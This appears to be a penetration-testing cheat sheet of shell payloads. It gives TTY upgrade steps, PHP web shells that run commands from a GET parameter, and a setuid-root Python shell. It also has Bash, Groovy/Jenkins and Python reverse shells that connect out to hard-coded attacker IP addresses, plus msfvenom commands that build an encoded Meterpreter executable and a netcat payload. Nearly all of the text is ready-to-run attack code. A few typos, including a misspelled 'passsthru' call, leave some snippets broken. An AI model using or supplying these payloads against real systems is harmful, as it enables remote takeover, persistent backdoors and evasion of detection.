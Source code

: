 # Shells

## Stabilisation/Upgrade shell

### Python

```console
Step 1
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python2 -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

Step 2
$ export TERM=xterm

Step 3
STRG + Z to Backround shell
$ stty raw -echo; fg

Optional Setp 4:
$ reset
```

## Web Shell PHP

### POC
If you are unsure whether they are enabled on your system, the following will return a list of the dangerous functions that are enabled.
```php
<?php print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));?>
```

### Backtrick

```php
<?php system($_GET['cmd']);?>
'cmd' HTTP Request GET parameter -> e.g. "/shell.php?cmd=ls%20-la" 

<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>
```

### system()
```php
// Return the listing of the directory where the file runs (Windows)
<?php system("dir"); ?>

// Return the listing of the directory where the file runs (Linux)
<?php system("ls -la"); ?>
```

### exec()

```php
// Executes but returns nothing
<?php exec("ls -la"); ?>

// Executes, returns only last line of the output
<?php echo exec("ls -la"); ?>
```

### shell_exec()

```php
// Executes, returns the entire output as a string
<?php echo shell_exec("ls -la"); ?>
```

### passthru()

```php
// Executes, returns output in raw format
<?php passsthru("ls -la"); ?>
```

## Shells

### Python

```console
$ python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Reverse Shells

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Listener

```bash
nc -lvnp 9001

socat TCP-L:<port>
```

### Bash

```bash
bash -i >& /dev/tcp/10.38.1.112/4444 0>&1
```

### Groovy/Jenkins

```
String host="10.0.0.1";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Python

```console
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.20.70",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## msfvenom

Payload Generator

### Windows Meterpreter Reverse shell

```console
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly.
```

### Reverse nc

```console
$ msfvenom -p cmd/unix/reverse_netcat lhost=VPN-IP lport=1337 R
```
